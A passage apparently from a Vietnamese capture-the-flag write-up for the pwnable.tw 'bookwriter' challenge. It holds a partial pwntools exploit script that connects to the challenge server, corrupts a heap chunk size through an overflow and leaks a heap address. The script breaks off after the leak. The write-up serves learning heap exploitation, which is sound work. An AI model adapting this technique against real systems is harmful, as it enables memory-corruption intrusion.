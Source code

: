 - cuối cùng malloc 1 chunk bất kì và lấy shell 


![image](https://github.com/gookoosss/CTF/assets/128712571/74ae7cd3-546c-4b07-83fa-f9728e9b8bfe)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bookwriter_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe

p = remote('chall.pwnable.tw', 10304)
# p = process([exe.path])
# gdb.attach(p, gdbscript = '''
# b*0x00000000004009FE
# b*0x0000000000400EE0
# b*0x0000000000400BAD
# b*0x0000000000400F14
# b*0x0000000000400F09
# c
# ''')

# input()
def add(size, data):
    p.sendlineafter(b'choice :', b'1')
    p.sendlineafter(b'page :', str(size))
    p.sendafter(b'Content :', data)

def show(idx):
    p.sendlineafter(b'choice :', b'2')
    p.sendlineafter(b'page :', str(idx))
  

def edit(idx, data):
    p.sendlineafter(b'choice :', b'3')
    p.sendlineafter(b'page :', str(idx))
    p.sendafter(b'Content:', data)

def change(data):
    p.sendlineafter(b'choice :', b'2')
    p.sendlineafter(b'no:0) ', b'1')
    p.sendlineafter(b'Author :', data)


name = 0x0000000000602060
array = 0x00000000006020A0
size = 0x00000000006020E0 
p.sendlineafter(b'Author :', b'a'*64)
add(0x18, b'a')
edit(0, b'a'*0x18)
edit(0,b'\0'*0x18 + b'\xe1\x0f\x00')
p.sendlineafter(b'choice :', b'4')
p.recvuntil(b'a'*64)
heap = u64(p.recv(4) + b'\0\0\0\0') - 0x10
print(hex(heap))
p.sendlineafter(b'no:0) ', b'0')
```